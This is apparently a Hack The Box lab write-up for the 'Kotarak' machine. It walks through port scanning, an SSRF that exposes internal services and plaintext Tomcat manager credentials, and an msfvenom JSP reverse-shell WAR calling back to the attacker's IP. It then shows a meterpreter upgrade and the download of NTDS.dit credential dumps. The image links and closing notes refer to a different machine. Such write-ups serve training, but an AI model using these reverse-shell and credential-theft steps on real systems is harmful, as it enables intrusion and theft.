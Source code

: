 


Nmap
```
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
|   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
|_  256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (EdDSA)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         Kotarak Web Hosting        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 2 webservers

* **http://kotarak.htb:8080/**
  
  <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>
  
  We do some dirbusting and we see the /examples directory, whchich comes default with the installation
  
  Nothing unusual anywhere else.
  
  We also have a login at /manager/html but we dont have any creds yet


* **http://kotarak.htb:60000/**

  <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>
  
  Looks like a browser inside a browser (Inception :D )
  
  We try to query the local 8080 page we found and it returns the same thing like before
  
  <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>
  
  <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>
  
  It looks like it some kind of proxy, maybe there are other ports internally which are open
  
  After some dirbusting we find this
  ```http://10.10.10.55:60000/url.php?path=127.0.0.1:60000/server-status```
  
  The server status page shows that there are many ports open which has different stuff on it
  
  One of the ports has some juicy info 
  ```http://10.10.10.55:60000/url.php?path=localhost:888/?doc=backup```
  
  username="admin" password="3@g01PdhB!"

| Username            | Password            |
| ------------- |:-------------------------:|
| admin    | 3@g01PdhB!     |


Lets try that Username and Password at the 8080 login page

We are in!!

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>

Lets create a msfvenom reverse shell payload 
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.112 LPORT=4443 -f war > dotalol.war
```

Start a listner with msfvenom

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload/java/jsp_shell_reverse_tcp 
msf exploit(handler) > set LHOST 10.10.15.112
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.112     yes       The listen address
   LPORT  4443             yes       The listen port
   SHELL                   no        The system shell to use.
```

Upload the .war to the 

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>

After we deplot it, we start the listner and visit ```http://kotarak.htb:8080/dotalol/```

```
[*] Command shell session 1 opened (10.10.15.112:4443 -> 10.10.10.55:56176) at 2017-12-24 03:26:20 +0530

msf exploit(handler) > sessions -i

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  1         shell java/linux               10.10.15.112:4443 -> 10.10.10.55:56176 (10.10.10.55)
```

Lets upgrade it to a meterpreter shell for better use

```
msf exploit(handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.15.112:4433 
[*] Sending stage (847604 bytes) to 10.10.10.55
[*] Meterpreter session 2 opened (10.10.15.112:4433 -> 10.10.10.55:33194) at 2017-12-24 03:26:39 +0530
[*] Command stager progress: 100.00% (736/736 bytes)
msf exploit(handler) > sessions -i

Active sessions
===============

  Id  Name  Type                   Information                                             Connection
  --  ----  ----                   -----------                                             ----------
  1         shell java/linux                                                               10.10.15.112:4443 -> 10.10.10.55:56176 (10.10.10.55)
  2         meterpreter x86/linux  uid=1001, gid=1001, euid=1001, egid=1001 @ 10.10.10.55  10.10.15.112:4433 -> 10.10.10.55:33194 (10.10.10.55)

```

After some enumerating we find something

```
meterpreter > pwd
/home/tomcat/to_archive/pentest_data
meterpreter > ls
Listing: /home/tomcat/to_archive/pentest_data
=============================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100644/rw-r--r--  16793600  fil   2017-07-21 21:46:23 +0530  20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
100644/rw-r--r--  12189696  fil   2017-07-21 21:46:45 +0530  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Lets download both the files into our machine and rename them to something simpler like kotarak.dit and kotarak.bin

There is a nice writeup on how we can extract data from .dit files [here](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)






-------------------------------- **NOTES** -----------------------------
```
Images:
    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>

Tables:
| IP            | Machine                   |
| ------------- |:-------------------------:|
| 10.25.25.2    | DC (dc.fulcrum.local)     |
| 10.25.25.3    | FILE (file.fulcrum.local) |
```
